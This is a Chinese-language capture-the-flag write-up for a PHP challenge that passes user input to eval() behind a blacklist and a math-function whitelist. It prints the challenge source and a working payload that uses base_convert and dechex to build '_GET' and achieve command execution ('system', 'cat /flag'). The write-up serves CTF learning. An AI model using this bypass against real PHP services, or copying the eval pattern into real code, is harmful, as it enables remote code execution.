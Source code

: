自己好喜欢鸽wp啊，这是一道表面上的"math"题

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

这里主要是构建一个类似这种的

```
c=system("cat /flag") //flag目录结合具体题目
```

1.绕过函数和引号的限制，引号可以删掉，然后函数是可以利用动态函数的性质，即字符串做函数名，加上括号即可被当作函数执行：

```c=($_GET[a])($_GET[b])
c=($_GET[a])($_GET[b])
```

所以目标的payload如下：

```
c=($_GET[a])($_GET[b])&a=system&b=cat /flag
```

白名单用来检测c中出现的变量名，因此a，b不能出现，但是可以用白名单中的值，比如abs，cos。GET中括号和和GET本身都不能出现，中括号可以用{}替代，因此这道题的核心就是构造_GET。构造如下：

```
base_convert(37907361743,10,36)(dechex(1598506324))
```

base_convert(37907361743,10,36)=>"hex2bin"，dechex(1598506324)=>"5f474554",hex2bin("5f474554")=>_GET

最后的payload

```
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){cos})&pi=system&cos=cat /flag
```

这里用$pi作为_GET传参

这里将一个绕过

```php
 preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
```

这里是讲对于所有ascii码内的字符进行匹配，上述payload匹配出来为pi base_convert dechex pi pi pi cos

感觉关键点就是构造_GET,然后绕过，不过对于一种新的传参方式c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){cos}) 有了新的认识

## php动态函数调用方法

------

php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数